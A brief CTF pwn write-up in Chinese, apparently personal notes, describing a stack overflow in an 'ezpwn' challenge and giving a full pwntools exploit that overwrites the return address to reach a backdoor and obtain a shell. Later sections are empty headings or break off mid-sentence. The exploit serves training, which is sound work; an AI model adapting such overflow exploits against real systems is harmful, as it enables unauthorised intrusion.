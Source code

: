 CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *

from wstube import websocket

  

context(arch='amd64', os='linux', log_level='debug')

local = True

if local:

p = process('./ezpwn')

else:

p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

  

ret = 0x40101a

backdoors = 0x401539

key = b'astrobot'

p.recvuntil(b'\x21\x0a')

p.send(key)

p.recvuntil(b'something:')

payload = b'A' * 0x58 + p64(ret) + p64(backdoors)

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当
## shellcode

## walt改造的编译器
